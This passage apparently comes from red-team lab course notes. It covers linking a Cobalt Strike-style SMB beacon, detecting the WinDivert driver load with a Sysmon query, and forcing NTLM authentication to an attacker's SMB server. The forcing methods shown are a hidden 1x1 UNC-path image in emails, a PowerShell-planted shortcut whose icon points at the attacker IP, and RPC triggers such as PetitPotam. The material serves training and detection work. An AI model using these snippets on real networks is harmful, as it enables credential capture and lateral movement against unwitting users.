 All that's left is to link to the Beacon.

    beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
    [+] established link to child beacon: 10.10.122.10

To stop PortBender, stop the job and kill the spawned process.

- One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using the "Loaded Drivers" saved search.

You can find driver loads in Kibana using Sysmon Event ID 6.  Even though the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

    event.module: sysmon and event.code: 6 and not file.code_signature.subject_name: "Amazon Web Services, Inc."

## Forcing NTLM Authentication

In the real world, it's unlikely you can just jump onto the console of a machine as a privileged user and authenticate to your malicious SMB server.  You can of course just wait for a random event to occur, or try to socially engineer a privileged user.  However, there are also lots of techniques to "force" users to unknowingly trigger NTLM authentication attempts to your endpoint.

Here are a few possibilities.

#### 1x1 Images in Emails

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

    <img src="\\10.10.123.102\test.ico" height="1" width="1" />

A sneakier means may be to modify the sender's email signature, so that even legitimate emails they send will trigger NTLM authentication from every recipient who reads them.

#### Windows Shortcuts

A Windows shortcut can have multiple properties including a target, working directory and an icon.  Creating a shortcut with the icon property pointing to a UNC path will trigger an NTLM authentication attempt when it's viewed in Explorer (it doesn't even have to be clicked).  A good location for these is on publicly readable shares.

The easiest way to create a shortcut is with PowerShell.

    $wsh = new-object -ComObject wscript.shell
    $shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
    $shortcut.IconLocation = "\\10.10.123.102\test.ico"
    $shortcut.Save()
    
#### Remote Authentication Triggers

Tools such as SpoolSample, SharpSystemTriggers and PetitPotam can force a computer into authenticating to us.  These generally work via Microsoft RPC protocols, such as MS-RPRN and MS-EFS.

# Relaying WebDAV 
